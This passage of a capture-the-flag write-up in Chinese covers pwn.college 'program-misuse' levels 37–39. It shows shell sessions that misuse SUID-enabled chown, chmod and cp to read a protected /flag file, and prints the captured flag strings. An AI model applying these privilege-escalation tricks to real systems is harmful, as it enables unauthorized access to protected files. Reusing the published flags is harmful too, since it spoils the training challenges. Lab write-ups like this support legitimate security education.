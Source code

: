 ```
hacker@program-misuse-level-37:~$ chown hacker /flag
hacker@program-misuse-level-37:~$ cat /flag
pwn.college{49NDHOhwhBEwWccuPUHSxUU0RIE.0VO3EDL2QjMyMzW}
hacker@program-misuse-level-37:~$
```
这就是简单的赋权了

## level38 Lets you get the flag by doing tricks with permissions!

```
hacker@program-misuse-level-38:~$ sh file.sh
Welcome to ./babysuid_level38!

This challenge is part of a series of programs that
let you get the flag by doing tricks with permissions.

I just set the SUID bit on /usr/bin/chmod.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level38) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/chmod!
```
这个，没人不会吧
```
hacker@program-misuse-level-38:~$ chmod 777 /flag
hacker@program-misuse-level-38:~$ cat /flag
pwn.college{UtH5piA32tLwQLpCFPRDXuFa98r.0FM4EDL2QjMyMzW}
hacker@program-misuse-level-38:~$
```

## level39 Lets you get the flag by doing tricks with permissions!

```
hacker@program-misuse-level-39:~$ sh file.sh
Welcome to ./babysuid_level39!

This challenge is part of a series of programs that
let you get the flag by doing tricks with permissions.

I just set the SUID bit on /usr/bin/cp.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level39) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/cp!
```
一开始想搞个硬链接，然后发现不行，然后输出到[标准输出流](https://blog.csdn.net/Dontla/article/details/121200247)就行了
```
hacker@program-misuse-level-39:~$ cp /flag /dev/stdout
pwn.college{Q2azoEz2fXYLZxYkmGAK4PjtrO7.0VM4EDL2QjMyMzW}
hacker@program-misuse-level-39:~$
```
